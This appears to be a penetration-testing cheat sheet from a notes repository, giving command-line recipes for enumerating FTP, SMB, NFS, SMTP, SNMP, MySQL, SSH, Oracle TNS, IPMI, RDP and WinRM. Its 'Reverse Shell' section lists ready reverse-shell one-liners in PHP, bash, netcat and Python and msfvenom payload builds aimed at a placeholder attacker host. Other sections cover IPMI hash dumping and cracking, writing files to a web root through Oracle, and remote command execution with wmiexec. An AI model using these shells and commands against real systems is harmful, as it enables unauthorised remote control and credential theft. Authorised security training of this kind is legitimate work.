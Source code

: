 # 🕵️ Footprinting

This module covers many manual techniques that we can use for manual enumeration, footprinting, and interaction with a wide variety of services.

- [🌐 Certificate Transparency + IP Resolution + Shodan](https://developer.mozilla.org/en-US/docs/Web/Security/Certificate_Transparency)  
- [📶 CIDR Discovery Script](https://docs.infoblox.com/space/netmri760/357468470)  
- [📦 FTP](https://ubuntu.com/server/docs/set-up-an-ftp-server)  
- [🧩 SMB](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-smb/f210069c-7086-4dc2-885e-861d837df688)
- [📁 NFS](https://en.wikipedia.org/wiki/Network_File_System)
- [📧 SMTP](https://www.rfc-editor.org/rfc/rfc5321.html)  
- [📨 IMAP/POP3](https://support.mozilla.org/en-US/kb/difference-between-imap-and-pop3)  
- [📡 SNMP](https://en.wikipedia.org/wiki/Simple_Network_Management_Protocol)  
- [🛢️ MySQL](https://dev.mysql.com/doc/refman/8.0/en/)  
- [🐚 Reverse Shell](https://github.com/leebaird/discover)  
- [🔐 SSH](https://www.openssh.com/manual.html) 
- [🧰 Oracle‑TNS](https://docs.oracle.com/en/database/)
- [🖥️ IPMI](https://www.intel.com/content/www/us/en/developer/topic-technology/ipmi/ipmi-intelligence.html)
- [🔗 RDP](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rdpbcgr/ed87a0cb-b228-4dcb-b9f9-d7e4f32e9fcd)  
- [🔗 Windows Remote Management Protocols](https://learn.microsoft.com/en-us/powershell/scripting/wnp/overview-of-windows-remote-management)  
- [📘 Next Steps](https://github.com/RafaHdzCh/pentest-notes/blob/main/docs/02-information-gathering.md)

---

<details>
<summary><strong>🌐 Certificate Transparency + IP Resolution + Shodan</strong></summary>

Subdomain discovery via [crt.sh](https://crt.sh), followed by DNS resolution and Shodan fingerprinting.

```bash
# Initialize Shodan
shodan init <APIKEY>

# Extract subdomains from Certificate Transparency logs
curl -s "https://crt.sh/?q=<DOMAIN>&output=json" | jq -r '.[].name_value' | \
awk '{gsub(/\\n/,"\n")}1' | sort -u | grep -v "CN=" > subdomainlist.txt

# Resolve IPs for discovered subdomains
for i in $(cat subdomainlist.txt); do 
  host "$i" | grep "has address" | grep "<DOMAIN>" | cut -d" " -f4 >> ip-addresses.txt
done

# Perform Shodan footprinting
for i in $(cat ip-addresses.txt | sort -u); do 
  shodan host "$i"
done
```

</details>

---

<details>
<summary><strong>📶 CIDR Discovery Script</strong></summary>

**Identify IP ranges and scan for live hosts using a custom script**

### Key steps:
1. Validate input arguments
2. Identify CIDR block for a given IP
3. Ping all IPs in the range
4. Resolve IPs for a target domain
5. Support options and automation

**Script**: [`CIDR.sh`](../scripts/CIDR.sh)

 </details>
 
---

<details>
<summary><strong>📦 FTP</strong></summary>

**Scan FTP service**

```bash
sudo nmap -sV -p21 -sC -A <IP>
```

**Enumerate FTP settings and anonymously download files**

```bash
# Show configuration without comments
cat /etc/vsftpd.conf | grep -v "#"

# View restricted users
cat /etc/ftpusers

# Recursively download available FTP files
wget -m --no-passive ftp://<USER>:<PASSWORD>@<IP>
```

**Service interaction**

```bash
# nc
nc -nv <IP> <PORT>

# telnet
telnet <IP> <PORT>

# openssl
openssl s_client -connect <IP>:<PORT> -starttls ftp
```

 </details>

 ---

<details>
<summary><strong>📁 NFS</strong></summary>

**Scan NFS service**

```bash
sudo nmap <IP> -p111,2049 -sV -sC
```
```bash
sudo nmap --script nfs* <IP> -sV -p111,2049
```

**Service interaction**

Show Available NFS Shares
```bash
showmount -e <IP>
```

Mounting NFS Share
```bash
mkdir target-NFS
sudo mount -t nfs <IP>:/ ./target-NFS/ -o nolock
cd target-NFS
tree .
```

List Contents with Usernames, Group Names, UIDs & GUIDs
```bash
ls -l -n mnt/nfs/
```

Unmounting
```bash
sudo umount ./target-NFS
```

 </details>
 
---

<details>
<summary><strong>🧩 SMB</strong></summary>

**Scan SMB service**

```bash
sudo nmap <IP> -sV -sC -p139,445
```

**Analyze shared folders and user access**

```bash
# Check smb.conf (without comments and semicolons)
cat /etc/samba/smb.conf | grep -v "#\|\;"

# Restart Samba after changes
sudo systemctl restart smbd

# List available shares without credentials
smbclient -N -L //<IP>
```

### Tools:
- [`samrdump.py`](../scripts/samrdump.py)
- [SMBMap](https://github.com/ShawnDEvans/smbmap)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
- [Enum4Linux-ng](https://github.com/cddmp/enum4linux-ng)

```bash
# Install Enum4Linux-ng
git clone https://github.com/cddmp/enum4linux-ng.git
cd enum4linux-ng
sudo cp enum4linux-ng.py /usr/local/bin/enum4linux-ng
sudo chmod +x /usr/local/bin/enum4linux-ng
enum4linux-ng -h
```

</details>
 
---

<details>
<summary><strong>📧 SMTP</strong></summary>

**Scan SMTP service**
```bash
sudo nmap <IP> -sC -sV -p25

sudo nmap <IP> -p25 --script smtp-open-relay -v
```

**Get configuration file**

```bash
cat /etc/postfix/main.cf | grep -v "#" | sed -r "/^\s*$/d"
```

**Service interaction**

```bash
telnet <IP> <PORT>
```

</details>

---

<details>
<summary><strong>📨 IMAP POP3</strong></summary>


**Scan SMTP service**
```bash
sudo nmap <IP> -sV -p 110,143,993,995 -sC --script pop3-capabilities,imap-capabilities
```

**Service interaction**

```bash
#curl
curl -k 'imaps://<IP>' --user <USER>:<PASSWORD>

#openssl pop3
openssl s_client -connect <IP>:pop3s

#openssl imap
openssl s_client -connect <IP>:imaps
```

</details>

---

<details>
<summary><strong>📡 SNMP</strong></summary>

**Footprinting SMTP service**

```bash
# snmpwalk
snmpwalk -v2c -c <COMMUNITYSTRING> <IP>

# OneSixtyOne
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt <IP>
```

**Get configuration file**

```bash
cat /etc/snmp/snmpd.conf | grep -v "#" | sed -r '/^\s*$/d'
```

</details>

---

<details>
<summary><strong>🛢️ MySQL</strong></summary>


**Scan MySQL service**

```bash
sudo nmap <IP> -sV -sC -p3306 --script mysql*
```

**Get configuration file**

```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | sed -r '/^\s*$/d'
```

**Service interaction**

```bash
# Without a password
mysql -u <USER> -h <IP>

# Using a password
mysql -u <USER> -p<PASSWORD> -h <IP>
```

</details>

---

<details>
<summary><strong>🐚 Reverse Shell</strong></summary>


**PHP**
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'"); ?>
```

**BASH**
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
bash -i >& /dev/udp/<IP>/<PORT> 0>&1
```

**Netcat**
```bash
nc -e /bin/sh <IP> <PORT>
```

**Python**
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**Metasploit**
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

**Meterpreter**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

**Spawn TTY**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash"); import os; os.putenv("TERM", "xterm"); os.system("export SHELL=/bin/bash");'
export TERM=xterm
```

</details>

---

<details>
<summary><strong>🔐 SSH</strong></summary>


**Scan with SSH-Audit**
```bash
git clone https://github.com/jtesta/ssh-audit.git && cd ssh-audit
./ssh-audit.py <IP>
```

**Get configuration file**
```bash
cat /etc/ssh/sshd_config  | grep -v "#" | sed -r '/^\s*$/d'
```

**Service interaction**
```bash
ssh <USER>@<ip>

ssh -i id_rsa <USER>@<ip>
```

**Port Forwarding**
```bash
ssh -L <LPORT>:<RHOST>:<RPORT> <USER>@<IP>
```

</details>

---

<details>
<summary><strong>🧰 Oracle TNS</strong></summary>

**Scan TNS service**

```bash
sudo nmap -p1521 -sV <IP> --open

sudo nmap -p1521 -sV <IP> --open --script oracle-sid-brute

```

**Oracle-Tools**

Install Oracle-Tools*

[`Oracle-Tools-setup.sh`](../scripts/Oracle-Tools-setup.sh)

Testing ODAT

```bash
./odat.py all -s <IP>
```

**SQLplus Login**
```bash
sqlplus <USER>/<PASS>@<IP>/XE
sqlplus <USER>/<PASS>@<IP>/XE as sysdba
```

**Fix SQLplus Library Path**
```bash
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf"
sudo ldconfig
```

**File Upload with Oracle**
```bash
echo "Oracle File Upload Test" > testing.txt
./odat.py utlfile -s <IP> -d XE -U user -P password --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

**Download Uploaded File**
```bash
curl -X GET http://<IP>/testing.txt
```

</details>

---

<details>
<summary><strong>🖥️ IPMI</strong></summary>


**Scan with Nmap**
```bash
sudo nmap -sU --script ipmi-version -p 623 <IP>
```

**Scan with Metasploit**
```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 > set rhosts <IP>
msf6 > show options
msf6 > run
```

**Dump Hashes**
```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 > set rhosts <IP>
msf6 > run
```

**Crack IPMI Hashes HP iLO using a factory default password**
```bash
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

</details>

---

<details>
<summary><strong>🔗 RDP</strong></summary>


**Scan with Nmap**
```bash
nmap -sV -sC -n <IP> -p3389 --disable-arp-ping --script rdp*
```

**RDP Security Check**

```bash
git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
./rdp-sec-check.pl <IP>
```

**Service interaction**
```bash
xfreerdp /u:<USER> /p:"<PASSWORD>" /v:<IP>
```

</details>

---

<details>
<summary><strong>🔗 Windows Remote Management Protocols</strong></summary>

**WinRM**

**Scan with Nmap**
```bash
nmap -sV -sC <IP> -p5985,5986 --disable-arp-ping -n
```

**Service interaction**
```bash
evil-winrm -i <IP> -u <USER> -p <PASSWORD>
```


**Windows Management Instrumentation (WMI)**

**Footprinting the service**
```bash
/usr/share/doc/python3-impacket/examples/wmiexec.py <USER>:"<PASSWORD>"@<IP> "hostname"
```

</details>

---

📘 **Next step:** Continue with [INFORMATION GATHERING](./02-information-gathering.md)
